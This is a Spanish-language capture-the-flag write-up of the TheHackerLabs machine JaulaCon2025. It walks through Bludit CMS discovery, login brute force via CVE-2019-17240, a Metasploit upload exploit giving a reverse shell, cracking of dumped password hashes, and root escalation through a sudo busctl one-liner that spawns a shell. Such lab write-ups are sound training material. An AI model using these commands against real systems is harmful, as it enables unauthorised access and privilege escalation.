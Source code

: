# 🛡️ Write-up – JaulaCon2025 (TheHackerLabs)

## 🧠 Objetivo

Comprometer el sistema, obtener acceso como `root` y capturar las flags `user` y `root`.

---

## 🔎 1. Reconocimiento inicial

### 🧪 Escaneo de puertos con `nmap`

```bash
nmap -sC -sV -Pn 192.168.1.73
```

**Resultado:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian
80/tcp open  http    Apache httpd 2.4.62 (Debian)
```

El puerto 80 muestra contenido web gestionado por **Bludit CMS**:

```
http-generator: Bludit
http-title: Bienvenido a Bludit | BLUDIT
```

---

## 🌐 2. Resolución del dominio

El HTML contenía rutas absolutas apuntando a `http://jaulacon2025.thl`, lo que impedía que se mostraran los estilos correctamente al acceder por IP.

### 🔧 Solución:

Se añadió una entrada en `/etc/hosts`:

```
192.168.1.73  jaulacon2025.thl
```

Así se pudo acceder correctamente al contenido web renderizado.

---

## 🔓 3. Descubrimiento de login

A través de `/admin`, se accede al panel de login de Bludit CMS.

Tras enumerar rutas con `dirb`, se confirmó la ruta de administración:

```
http://jaulacon2025.thl/admin
```

---

## 🢨 4. Fuerza bruta de login (CVE-2019-17240)

Bludit 3.9.2 es vulnerable a bypass de limitación de intentos usando la cabecera `X-Forwarded-For`.

### 🔧 Se usaron dos métodos:

- Script en Python propio (con `--threads`, validación CSRF, multihilo)
- Script en Ruby más robusto que resolvió correctamente el login

### ✅ Credenciales obtenidas:

```
Usuario: Jaulacon2025
Contraseña: cassandra
```

---

## 📛 5. Explotación con Metasploit

Se usó el módulo:

```bash
use exploit/linux/http/bludit_upload_images_exec
```

Con los parámetros:

- USERNAME: `Jaulacon2025`
- PASSWORD: `cassandra`
- LHOST: `192.168.1.109`

### ✅ Resultado:

Obtención de **una reverse shell como **``

---

## 🔎 6. Post-explotación: enumeración y cracking

Se buscó información sensible en `/var/www/html/bl-content/databases/users.php`, donde se encontraron los siguientes hashes y salt:

| Usuario      | Hash (SHA1)                              | Salt          |
| ------------ | ---------------------------------------- | ------------- |
| admin        | 67def80155faa894bfb132889e3825a2718db22f | 67e2f74795e73 |
| Jaulacon2025 | a0fcd99fe4a21f30abd2053b1cf796da628e4e7e | bo22u72!      |
| JaulaCon2025 | 551211bcd6ef18e32742a73fcb85430b         | jejej         |

Se intentó crackear con `john` usando el formato `dynamic_26` y `rockyou.txt`, pero no funcionó debido a codificación incorrecta del archivo (fin de línea `^M`).

### 🔑 Se recurrió a [CrackStation](https://crackstation.net):

```text
Hash: 551211bcd6ef18e32742a73fcb85430b → Password: Brutales
```

---

## 🔐 7. Acceso a usuario con contraseña crackeada

Se accedió con `su JaulaCon2025` y la contraseña `Brutales`.

Luego:

```bash
sudo -l
```

Resultado:

```
User JaulaCon2025 may run the following command:
(root) NOPASSWD: /usr/bin/busctl
```

---

## ⚙️ 8. Explotación de `busctl` para obtener shell root

Se ejecutó:

```bash
sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 \
org.freedesktop.systemd1.Manager LogLevel s debug \
--address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
```

Y se obtuvo una **shell interactiva como root**.

---

## 🏑️ 9. Flags obtenidas

```bash
cat /home/JaulaCon2025/user.txt
cat /root/root.txt
```

---

## ✅ Resumen final

| Acción             | Herramienta/Técnica                        | Resultado              |
| ------------------ | ------------------------------------------ | ---------------------- |
| Descubrimiento CMS | `nmap`, análisis HTML                      | Bludit 3.9.2           |
| Fuerza bruta login | Script Python + Ruby exploit               | Usuario `Jaulacon2025` |
| Reverse shell      | `Metasploit` (`bludit_upload_images_exec`) | Acceso como `www-data` |
| Post-explotación   | Crackeo de hash desde `users.php`          | Contraseña `Brutales`  |
| Escalada a root    | `sudo /usr/bin/busctl`                     | Shell root             |
| Flags capturadas   | `cat user.txt && cat root.txt`             | Éxito total            |

